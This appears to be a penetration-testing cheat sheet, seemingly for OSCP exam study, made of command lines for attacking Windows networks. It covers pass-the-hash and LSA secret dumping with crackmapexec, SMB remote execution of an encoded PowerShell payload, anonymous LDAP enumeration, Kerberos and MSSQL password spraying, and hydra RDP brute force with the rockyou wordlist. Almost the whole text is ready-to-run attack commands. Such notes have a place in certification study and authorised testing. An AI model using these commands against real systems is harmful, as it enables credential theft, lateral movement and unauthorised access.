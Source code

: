**SMB Pass-the-hash**

```bash
crackmapexec smb 10.11.1.120-124 -u 'Administrator' -H 'HASH'

--local-auth --lsa

--exec-method smbexec -X 'whoami'

-d oscp.exam -x whoami
```

**SMB command execution**

```bash
netexec smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
```


**ldap**

```bash
nxc ldap 10.10.10.10 -u '' -p '' -M get-desc-users

nxc ldap 10.10.10.10 -u '' -p '' --password-not-required --admin-count --users --groups
```


**MSSQL Passord Spraying**

```bash
sudo crackmapexec mssql 10.10.137.142 -u users.txt -p pass.txt -d ms02 --continue-on-succes
```

**Kerbrute**

```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

**RDP**

```bash
xfreerdp /cert-ignore /u:user /p:"Password" /v:$IP_TARGET
xfreerdp /cert-ignore /u:user /d:domain.com /p:"Password" /v:$IP_TARGET

# per avere una cartella condivisa
xfreerdp /cert-ignore /u:user /d:domain.com /p:"Password" /v:$IP_TARGET /size:85% /kbd:0x0000040a +clipboard +drive:smbdfolder,/home/kali/Desktop/Tools
```

**RDP Password Spraying**

```bash
hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt rdp://192.168.232.218:3389 -u -vV -T 40 -I

hydra -V -f -L users.txt -P passwords.txt rdp://192.168.232.218 -u -vV -T 40 -I
```
